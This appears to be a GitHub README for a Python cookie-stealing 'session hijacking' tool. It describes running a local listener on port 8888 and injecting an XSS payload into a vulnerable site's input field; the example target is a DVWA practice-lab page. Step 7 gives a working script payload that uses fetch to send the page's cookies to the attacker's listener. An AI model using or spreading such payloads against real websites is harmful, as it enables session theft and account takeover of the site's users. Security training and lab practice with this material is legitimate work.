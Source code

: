 #Session Hijacking Tool
This tool steals the cookie of any xss vulnerable website when payload is injected in user input field

#Technologies
python

#Installation & Usage:
1. clone the repo: https://github.com/pranavpenugonda/session-hijacking.git
2. run cookieSteal.py-> python3 cookieSteal.py
3. options will be displayed to the user
4. start server-> start localhost 8888
5. open browser and open xss vulnerable website like "http://lab.awh.zdresearch.com/chapter1/DVWA/vulnerabilities/xss_r/"
6. it has user input field, enter the payload
7. sample payload: <script>fetch(`http://localhost:8888?data=${document.cookie}`)</script>
8. after clicking on submit, check on terminal and you can see the cookie
   ![image](https://github.com/pranavpenugonda/session-hijacking/assets/92200984/f15892fa-93b8-4c49-9ff5-72d4f5d2c421)
   ![image](https://github.com/pranavpenugonda/session-hijacking/assets/92200984/a35c1b43-ef04-446f-acef-591f1653fb87)
   ![image](https://github.com/pranavpenugonda/session-hijacking/assets/92200984/bc461465-73d1-4cbe-98c1-c76ab6f56fa4)
